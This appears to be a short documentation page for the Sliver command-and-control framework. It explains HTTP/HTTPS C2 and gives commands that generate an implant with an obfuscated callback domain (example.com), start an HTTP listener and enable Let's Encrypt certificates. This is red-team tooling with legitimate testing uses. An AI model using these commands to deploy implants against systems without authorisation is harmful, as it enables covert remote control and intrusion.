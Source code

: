 Sliver supports proxy-aware C2 over both HTTP and HTTPS, however since Sliver does not rely upon the SSL/TLS layer for security these protocols are considered somewhat synonymous.

## Generate the Sliver (implant)
Sliver implants are compiled with a baked-in (but obfuscated of course) server domain that they will reach back out to. To generate a sliver implant that communicates to a server at example.com, run the following:

```
sliver > generate --http example.com

```

## Start the Listener 

```
sliver > http

```

## Static Content

You can manage static content using the `website` command.

## SSL/TLS Certificates

The `http` listener also supports automatic TLS certificates via Let's Encrypt, which can be enabled using the `--lets-encrypt` flag.

```
sliver > http --domain example.com --lets-encrypt

```
